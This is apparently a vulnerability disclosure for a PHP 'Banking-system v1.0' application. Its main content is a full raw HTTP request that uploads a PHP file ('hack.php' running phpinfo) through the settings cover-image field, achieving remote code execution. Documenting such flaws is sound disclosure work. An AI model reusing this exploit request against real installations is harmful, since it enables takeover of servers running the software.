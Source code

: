## Banking-system v1.0 by oretnom23 has arbitrary code execution (RCE)

vendor: https://www.sourcecodester.com/php/14868/banking-system-using-php-free-source-code.html

Vulnerability url: http://ip/banking/admin/?page=system_info 

Loophole location： Arbitrary file upload vulnerability exists in Website Cover upload point in system info (RCE)

Request package for file upload：

```sql
POST /banking/classes/SystemSettings.php?f=update_settings HTTP/1.1
Host: 192.168.1.19
Content-Length: 838
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.84 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryhors6Id7gZ8p807A
Origin: http://192.168.1.19
Referer: http://192.168.1.19/banking/admin/?page=system_info
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=v8g2iaa0tsnt5b01btt83eb7qo
Connection: close

------WebKitFormBoundaryhors6Id7gZ8p807A
Content-Disposition: form-data; name="name"

Online Banking System
------WebKitFormBoundaryhors6Id7gZ8p807A
Content-Disposition: form-data; name="short_name"

OBS
------WebKitFormBoundaryhors6Id7gZ8p807A
Content-Disposition: form-data; name="about_us"

<p>Sample About Us</p>
------WebKitFormBoundaryhors6Id7gZ8p807A
Content-Disposition: form-data; name="files"; filename=""
Content-Type: application/octet-stream


------WebKitFormBoundaryhors6Id7gZ8p807A
Content-Disposition: form-data; name="img"; filename=""
Content-Type: application/octet-stream


------WebKitFormBoundaryhors6Id7gZ8p807A
Content-Disposition: form-data; name="cover"; filename="hack.php" // Upload point
Content-Type: application/octet-stream

JFJF
<?php phpinfo();?>
------WebKitFormBoundaryhors6Id7gZ8p807A--


```

The files will be uploaded to this directory\ banking\ uploads\

![image](https://user-images.githubusercontent.com/54017627/161221003-e1e15b17-fc99-4dbd-bd06-794b93919e6e.png)

We visited the directory of the file in the browser and found that the code had been executed

![image](https://user-images.githubusercontent.com/54017627/161220963-4788d174-8a5d-4aa4-bc7a-c5c60b620d16.png)

